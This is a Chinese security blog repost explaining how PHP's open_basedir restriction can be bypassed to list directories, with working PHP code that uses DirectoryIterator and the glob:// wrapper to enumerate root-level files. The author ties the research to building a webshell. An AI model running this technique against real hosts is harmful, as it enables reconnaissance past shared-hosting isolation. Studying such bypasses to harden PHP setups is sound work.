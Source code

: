 这篇p牛的文章首发已经寄了，[PHP绕过open_basedir列目录的研究 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)，自存一份

首发drops：[](http://drops.wooyun.org/tips/3978)[http://drops.wooyun.org/tips/3978](http://drops.wooyun.org/tips/3978) 。

近期由于在开发自己的webshell，所以对PHP一些已有的漏洞进行了一定的研究，并且也自己发现了部分PHP存在的安全隐患。这篇文章我来与大家分享一下自己对于PHP中open_basedir绕过并列举目录的方法总结。

## [0x01 open_basedir的简介](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html#0x01-open_basedir)

Open_basedir是PHP设置中为了防御PHP跨目录进行文件（目录）读写的方法，所有PHP中有关文件读、写的函数都会经过open_basedir的检查。Open_basedir实际上是一些目录的集合，在定义了open_basedir以后，php可以读写的文件、目录都将被限制在这些目录中。

设置open_basedir的方法，在linux下，不同的目录由“:”分割，如“/var/www/:/tmp/”；在Windows下不同目录由“;”分割，如“c:/www;c:/windows/temp”。

在现在这个各种云、虚拟主机横行的时期，人们希望open_basedir作为一个横亘在不同用户之间的屏障，有力地保障用户的主机能独立运行，但事实并非人们想象的那么简单。

我们这篇文章着重讲的将是绕过open_basedir进行目录的列举与遍历，为何我们不说具体文件的读、写，因为文件读写的洞是危害比较大的漏洞了，在php5.3以后很少有能够绕过open_basedir读写文件的方法。

## [0x02 利用DirectoryIterator + Glob 直接列举目录](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html#0x02-directoryiterator-glob)

这是@/fd 脚本（[](http://zone.wooyun.org/content/11268)[http://zone.wooyun.org/content/11268](http://zone.wooyun.org/content/11268)）里给出的第一个方法。

DirectoryIterator 是php5中增加的一个类，为用户提供一个简单的查看目录的接口（The DirectoryIterator class provides a simple interface for viewing the contents of filesystem directories）。

glob: 数据流包装器是从 PHP 5.3.0 起开始有效的，用来查找匹配的文件路径。

结合这两个方式，我们就可以在php5.3以后对目录进行列举。在实测中，我们得知，此方法在Linux下列举目录居然可以无视open_basedir。

实例代码：
```php
<?php
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
// special files (starting with a dot(.))
$it = new DirectoryIterator("glob:///.*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
        echo "{$f}<br/>";
}
?>
```
